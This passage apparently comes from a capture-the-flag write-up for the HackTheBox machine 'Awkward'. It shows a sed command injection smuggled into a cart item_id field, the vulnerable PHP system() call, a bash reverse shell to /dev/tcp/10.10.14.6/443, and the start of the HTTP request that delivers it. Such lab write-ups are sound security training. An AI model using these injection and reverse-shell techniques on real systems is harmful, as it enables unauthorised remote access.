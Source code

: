 
    sed -i '/item_id=1' -e '1e /dev/shm/shell.sh' '/d' {$STORE_HOME}cart/{$user_id}



This matches exactly what I had above, except now it's running
`shell.sh`.

One gotcha to look out for - if your script (`shell.sh`) outputs any
data, then that data will be added to the front of the file. But once
that happens, it will fail the `checkValidItem` check, and never each
`sed`:



        if(checkValidItem("{$STORE_HOME}cart/{$user_id}")) {
            system("sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}");
            echo "Item removed from cart";
        }
        else {
            echo "Invalid item";
        }



#### Shell

To run this on Awkward, I'll create a simple reverse shell script:



    bean@awkward:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/443 0>&1'
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.6/443 0>&1
    bean@awkward:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/443 0>&1' > shell.sh
    bean@awkward:/dev/shm$ chmod +x shell.sh 



I'll also make sure I have something in my cart (or at least that the
cart file exists). Then I can send the injection:



    POST /cart_actions.php HTTP/1.1
    Host: store.hat-valley.htb
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 78
    Origin: http://store.hat-valley.htb
    Authorization: Basic YWRtaW46MDE0bXJiZWFucnVsZXMhI1A=
    Connection: close
    Referer: http://store.hat-valley.htb/cart.php
    Pragma: no-cache
    Cache-Control: no-cache
